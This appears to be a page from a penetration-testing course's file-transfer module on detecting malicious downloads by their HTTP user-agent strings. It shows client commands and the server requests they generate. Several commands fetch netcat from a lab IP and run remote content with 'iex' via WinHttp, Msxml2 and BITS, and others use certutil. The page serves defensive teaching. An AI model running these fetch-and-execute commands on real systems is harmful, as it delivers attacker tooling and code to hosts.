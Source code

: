 # Detection

Command-line detection based on blacklisting is straightforward to bypass, even using simple case obfuscation. However, although the process of whitelisting all command lines in a particular environment is initially time-consuming, it is very robust and allows for quick detection and alerting on any unusual command lines.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the `HTTP` protocol. There is a need for interoperability amongst different web servers and web browser types to ensure that users have the same experience no matter their browser. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which `HTTP` client is connecting to it, for example, Firefox, Chrome, etc.

User agents are not only used to identify web browsers, but anything acting as an `HTTP` client and connecting to a web server via `HTTP` can have a user agent string (i.e., `cURL`, a custom `Python` script, or common tools such as `sqlmap`, or `Nmap`).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows Update, and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform malicious actions. This [website](http://useragentstring.com/index.php) is handy for identifying common user agent strings. A list of user agent strings is available [here](http://useragentstring.com/pages/useragentstring.php).

Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common `HTTP` transfer techniques (tested on Windows 10, version 10.0.14393, with PowerShell 5).

**Invoke-WebRequest - Client**

Detection

```powershell-session
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

**Invoke-WebRequest - Server**

Detection

```shell-session
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

**WinHttpRequest - Client**

Detection

```powershell-session
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```

**WinHttpRequest - Server**

Detection

```shell-session
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

**Msxml2 - Client**

Detection

```powershell-session
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```

**Msxml2 - Server**

Detection

```shell-session
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

**Certutil - Client**

Detection

```cmd-session
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

**Certutil - Server**

Detection

```shell-session
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

**BITS - Client**

Detection

```powershell-session
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```

**BITS - Server**

Detection

```shell-session
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

This section just scratches the surface on detecting malicious file transfers. It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress. We will cover threat hunting and detection techniques in-depth in later modules.

**Table of Contents**

**Introduction**

**File Transfer Methods**

**Detect or Be Detected**

**My Workstation**

OFFLINE

/ 1 spawns left
